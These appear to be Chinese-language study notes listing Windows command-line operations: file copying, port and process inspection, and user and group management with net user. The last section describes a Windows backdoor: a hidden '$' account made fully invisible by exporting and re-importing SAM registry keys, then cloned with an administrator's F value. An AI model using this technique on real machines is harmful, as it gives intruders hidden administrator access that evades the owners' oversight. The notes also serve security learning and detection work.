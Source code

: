 ## 复制文件

```
copy 原文件 新文件 //复制并重命名
copy 2.txt+3.txt 4.txt //复制2.txt和3.txt内容到4.txt
```

## 移动move

```
move 原文件名 新文件名 //移动并改名
```

## 查看端口

```
netstat -ano //查看端口占用情况
netstat –ano | findstr “80” 从所有端口的占用情况中筛选字符80
```

## 查看系统进程

```
tasklist //查看系统的所有进程
taskkill //杀死进程
taskkill /PID XXX /t /f //关闭程序
taskkill /IM 程序名 /t /f //关闭程序
一个程序是由多个进程组成，主进程和子进程，主进程关掉才能彻底关闭程序
```

## 用户管理

```
net user //查看用户
net user 用户名 密码 /add //添加用户
net user 用户名 /del //删除用户
net user 用户名 /active:yes //启用账号
net user 用户名 /active:no //禁用账号
net localgroup administrators //查看管理员组中的成员
net localgroup administrators 用户名 /add //将用户添加到管理员组中
net user 用户名 /time:m-f,13-18 //限制用户可以在周一到周五的13-18登录
net user 用户名 密码 /add /expires:aug,15,2023 //创建用户，并设置用户在2023.8.15过期
```

## 隐藏用户(Windows后门)

```
net user 123$ 123 /add //创建隐藏用户（部分隐藏）
注册表
SAM文件：Windows存放账户和密码的文件
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
将users和names里的对应用户配置数据导出
net user 123$ /del //删除隐藏用户（制造假死现象）
将导出的数据重新导入，实现用户完全隐藏
本地安全策略，安全选项，交互式登录，不显示最后用户名 启用
超级隐藏用户：
克隆用户
将普通用户注册表users配置数据里的F值替换成其他用户，实现克隆
超级隐藏用户：
隐藏用户-->克隆管理员的F值
```

